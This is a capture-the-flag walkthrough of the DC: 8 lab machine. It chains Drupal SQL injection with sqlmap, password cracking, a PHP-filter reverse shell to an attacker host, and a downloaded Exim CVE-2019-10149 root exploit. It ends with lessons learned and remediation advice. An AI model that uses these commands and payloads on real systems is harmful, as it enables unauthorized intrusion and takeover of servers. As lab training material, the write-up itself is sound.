



# DC: 8 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.x (DHCP; discover with netdiscover) |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | Read `/root/flag.txt` |
| **Source** | [HackingArticles](https://www.hackingarticles.in/dc8-vulnhub-walkthrough/) |

## Attack Summary

Exploit a SQL injection vulnerability in a Drupal 7 site to dump the user table with sqlmap, crack the recovered hash with John the Ripper, log in to Drupal as `john`, abuse the PHP text filter to execute a reverse shell as `www-data`, then escalate to root by exploiting a SUID Exim 4.89 binary with a public local privilege escalation script.

## Methodology

1. Reconnaissance (netdiscover + nmap)
2. Web enumeration (Drupal 7, SQL injection discovery)
3. Exploitation (sqlmap, hash cracking, Drupal PHP code execution)
4. Privilege escalation (Exim 4.89 SUID — CVE-2019-10149 / raptor_exim_wiz)

## Step 1: Host Discovery

```bash
netdiscover -r 192.168.1.0/24
```

Note the target IP.

## Step 2: Reconnaissance

```bash
nmap -A <TARGET_IP>
```


Key open ports:

| Port | Service | Notes |
|------|---------|-------|
| 22   | OpenSSH | |
| 80   | Apache  | Drupal 7 application |

## Step 3: Identify SQL Injection

Browse to `http://<TARGET_IP>/`. The left-side navigation links include a `nid` parameter. Append a single quote to test:

```
http://<TARGET_IP>/?nid=1'
```

A Drupal database error is returned, confirming SQL injection.



## Step 4: Database Enumeration with sqlmap

```bash
sqlmap -u "http://<TARGET_IP>/?nid=1" --dbs --risk 3 --level 5 --batch
```

The `d7db` database is found. Dump the `users` table:

```bash
sqlmap -u "http://<TARGET_IP>/?nid=1" -D d7db -T users --dump --risk 3 --level 5 --batch
```

Two password hashes are extracted. Crack them with John the Ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
# john: password "turtle" for user "john"
```

## Step 5: Login to Drupal and Execute PHP

Navigate to `http://<TARGET_IP>/user` and log in as `john:turtle`.

Go to **Configuration > Content authoring > Text formats**. Edit the "Full HTML" format and switch the PHP filter to enabled. Navigate to a content node's edit page and change the text format to **PHP code**. Replace the body with a PHP reverse shell:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'");
?>
```

Start a listener:

```bash
nc -lvnp <LPORT>
```

Save or preview the node to trigger execution. A `www-data` shell connects back.

Upgrade the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


## Step 6: Identify Exim for Privilege Escalation

Check for SUID binaries and the Exim version:

```bash
find / -perm -4000 -type f 2>/dev/null
exim --version
# Exim version 4.89
```

Exim 4.89 is vulnerable to a local privilege escalation (CVE-2019-10149 / `raptor_exim_wiz`).

## Step 7: Exploit Exim with raptor_exim_wiz

Download the exploit to `/tmp`:

```bash
wget https://raw.githubusercontent.com/AV1080p/Hackthebox-Writeups/master/raptor_exim_wiz.sh \
  -O /tmp/raptor_exim_wiz.sh
chmod +x /tmp/raptor_exim_wiz.sh
```

Run with the netcat payload option:

```bash
/tmp/raptor_exim_wiz.sh -m netcat
```

Wait for the root reverse shell to connect on your listener.

```bash
id
# uid=0(root) gid=0(root)
```



## Step 8: Root Flag

```bash
cat /root/flag.txt
```



## Lessons Learned

1. Drupal's PHP filter is a dangerous feature: enabling PHP evaluation in text fields turns any authenticated content editor into a remote code execution capability.
2. SQL injection in a CMS URL parameter (`nid`) can expose the entire database, including password hashes.
3. SUID binaries running as root must be kept patched — Exim 4.89 is a well-known local privilege escalation vector.
4. Drupal and other CMS platforms require regular updates; outdated versions accumulate critical vulnerabilities.
5. Using `sqlmap --risk 3 --level 5` is aggressive and may cause DoS or data corruption on production systems — always operate within authorized scope.

## Remediation

| Vulnerability | Fix |
|---|---|
| SQL injection (Drupal nid) | Upgrade Drupal to a patched version; use parameterized queries |
| PHP text filter enabled | Disable the PHP evaluation filter in Drupal text formats |
| Weak admin password (turtle) | Enforce strong password policies; use a password manager |
| Exim 4.89 SUID (CVE-2019-10149) | Upgrade Exim to the latest patched version; remove unnecessary SUID bits |
| www-data shell upgrade | Restrict outbound network access from web server processes via firewall rules |
